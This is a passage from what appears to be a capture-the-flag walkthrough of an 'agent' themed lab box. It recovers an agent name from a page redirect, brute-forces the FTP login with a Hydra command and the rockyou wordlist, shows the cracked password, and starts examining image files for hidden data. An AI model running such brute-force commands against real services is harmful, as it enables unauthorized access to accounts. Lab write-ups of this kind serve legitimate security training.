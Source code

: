 As we can see, the response redirects us to $IP/agent_C_attention.php. From there, we see the following message:

![[Pasted image 20231114220446.png]]


```
agent_C_attention.php
```

**The agents name is ==chris==!**

### Hash cracking and brute-force
#### FTP Password

Using Hydra:

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP
```

| command | result |
| ------- | ------ |
| **-l:**     | Specify argument for username (here “chris”)    |                                         
|**-P:**         |Specify path to wordlist for brute-force attack  |                                                                                            | |
|**ftp://$IP:**         | Specify protocol and IP         |

Output:

```
[21][ftp] host: 10.10.0.132   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
```

**FTP password is ==crystal==**

#### Zip file password

Files found on the ftp server:

To_agentJ.txt:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

cute-alien.jpg
cutie.png

Running `strings` on cutie.png:
